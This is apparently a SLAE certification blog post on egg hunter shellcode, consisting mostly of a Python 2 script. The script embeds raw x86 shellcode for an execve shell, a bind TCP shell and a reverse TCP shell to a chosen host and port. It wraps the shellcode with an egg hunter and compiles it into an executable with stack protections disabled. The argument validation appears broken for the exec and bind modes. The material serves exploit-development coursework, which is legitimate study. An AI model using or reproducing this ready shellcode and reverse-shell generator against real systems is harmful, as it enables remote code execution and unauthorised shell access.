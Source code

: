 # Assignment 3: Egg Hunter

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

### Problem

- Study about the Egg Hunter shellcode
- Create a working demo of the Egghunter
- Should be configurable for different payloads

### Solution

The first part of the task was to research what the Egg Hunter is and how it works. The following paper was used as the theoretical basis and the cornerstone of the final implementation:

![Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) by skape

The following Egg Hunter implementation used was used as the prototype to complete the task:

```nasm
00000000  6681C9FF0F        or cx,0xfff
00000005  41                inc ecx
00000006  6A43              push byte +0x43
00000008  58                pop eax
00000009  CD80              int 0x80
0000000B  3CF2              cmp al,0xf2
0000000D  74F1              jz 0x0
0000000F  B841414141        mov eax,0x41414141
00000014  89CF              mov edi,ecx
00000016  AF                scasd
00000017  75EC              jnz 0x5
00000019  AF                scasd
0000001A  75E9              jnz 0x5
0000001C  FFE7              jmp edi
```

As described skape's paper, the above code will execute the `sigaction()` system call on each memory within an address space incrementally in an attempt to identify accesible memory regions. For each region identified, the code will incrementally traverse it looking for the Egg, which is nothing but a unique known string injected at the beginning of the actual shellcode. Since the Egg is 8-byte aligned, the next address after the Egg will be the shellcode, which is where execution flow is transfered after the Egg is identified. 

The final imlementation in Python uses the prototype Egg Hunter shellcode to add egg, shellcode and output file configuration options. The script allows to choose between Execve, Bind TCP, and Reverse TCP shellcodes, providing attional functionality for setting the remote and local host IP and port parameters. 

## egghunter.py

```python
#!/usr/bin/python

#####	Generate an executable 		

def generateElf(shellcode):
	print "\n[+] Staged Shellcode Length: %d\n" % len(bytearray(shellcode))
	sc = ""
	for c in bytearray(shellcode):
		sc += "\\x%02x" % c
	print sc

	egg = ""
	for c in range(0, 8, 2):
		egg += "\\x%s%s" % (args.egg[c], args.egg[c+1])
	print "\n[+] Egg: %s" % egg

	skeleton = '''
	#include<stdio.h>
	#include<string.h>
	#define EGG "__EGG__"
	unsigned char code[] = EGG EGG "__SHELLCODE__";
	unsigned char hunter[] = \\
		"\\x66\\x81\\xc9\\xff\\x0f\\x41\\x6a\\x43\\x58\\xcd\\x80\\x3c\\xf2\\x74"
		"\\xf1\\xb8"   EGG  "\\x89\\xcf\\xaf\\x75\\xec\\xaf\\x75\\xe9\\xff\\xe7";
	main() {
		printf("Hunter Shellcode Length:  %d\\n", strlen(hunter));
		int (*ret)() = (int(*)())hunter;
		ret();
	}	
	'''

	skeleton = skeleton.replace("__EGG__", egg)
	skeleton = skeleton.replace("__SHELLCODE__", sc)

	with open("a.c", "w") as f:
		f.write(skeleton)

	os.system("gcc a.c -fno-stack-protector -z execstack")
	os.rename("a.out", args.outfile)
	os.rename("a.c", "%s.c" % args.outfile)

	print "\n[+] Executable: %s\n" % args.outfile


def execShellcode(args):

	shellcode = (
		"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x8d"
		"\x1c\x24\x50\x8d\x14\x24\x53\x8d\x0c\x24\xb0\x0b\xcd\x80"
	)

	generateElf(shellcode)


def bindShellcode(args):

	port = struct.pack(">H", int(args.lport))

	shellcode = (
		"\x31\xc0\x31\xdb\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xb3\x01"
		"\xb0\x66\xcd\x80\x89\xc6\x31\xc0\xb0\x01\x50\x89\xe1\x51"
		"\x40\x50\x48\x50\x56\x89\xe1\xb3\x0e\xb0\x66\xcd\x80\x31"
		"\xc0\x50\x66\x68"+port+"\x66\x6a\x02\x89\xe1\x6a\x10\x51"
		"\x56\x89\xe1\xb3\x02\xb0\x66\xcd\x80\x66\x68\x02\x10\x56"
		"\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x31\xc0\x50\x50\x56\x89"
		"\xe1\xb3\x05\xb0\x66\xcd\x80\x89\xc7\x31\xc9\xb1\x02\x89"
		"\xfb\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68"
		"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2"
		"\x53\x89\xe1\xb0\x0b\xcd\x80\xe9\x76\xff\xff\xff"
		)

	generateElf(shellcode)


def revShellcode(args):
	host = ""
	addr = args.lhost.split(".")
	for a in addr:
		host += struct.pack(">B", int(a))

	port = struct.pack(">H", int(args.lport))

	shellcode = (
		"\x31\xc0\x31\xdb\x6a\x06\x6a\x01\x6a\x02\x89\xe1"
		"\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x68"+host+"\x66"
		"\x68"+port+"\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56"
		"\x89\xe1\xb3\x03\xb0\x66\xcd\x80\x31\xc9\xb1\x02"
		"\x89\xf3\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31"
		"\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
		"\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
		)

	generateElf(shellcode)


import sys
import os
import struct
import argparse

a = argparse.ArgumentParser()
suba = a.add_subparsers()

execa = suba.add_parser("exec")
execa.set_defaults(func=execShellcode)

binda = suba.add_parser("bind")
binda.add_argument("--lport", "-p", type=int, required=True, help="LPORT (must be between 1 and 65535)")
binda.set_defaults(func=bindShellcode)

reva = suba.add_parser("reverse")
reva.add_argument("--lhost", "-l", required=True, help="LHOST (must be IPv4)")
reva.add_argument("--lport", "-p", type=int, required=True, help="LPORT (must be between 1 and 65535)")
reva.set_defaults(func=revShellcode)

a.add_argument("--egg", "-e", default="41414141", help="EGG to hunt (must be 8 bytes; default: 41414141)")
a.add_argument("--outfile", "-o", default="hunter", help="Output ELF executable filename (default: hunter)")

args = a.parse_args()
print "\n",args,"\n"

error = False
if len(args.egg) != 8: 
	print "[!] Bad EGG!"
	error = True

if len(args.lhost.split(".")) != 4: 
	print "[!] Bad LHOST!"
	error = True

if args.lport not in range(1,65536):
	print "[!] Bad LPORT!"
	error = True	

if error: 
	print
	sys.exit()

args.func(args)
```

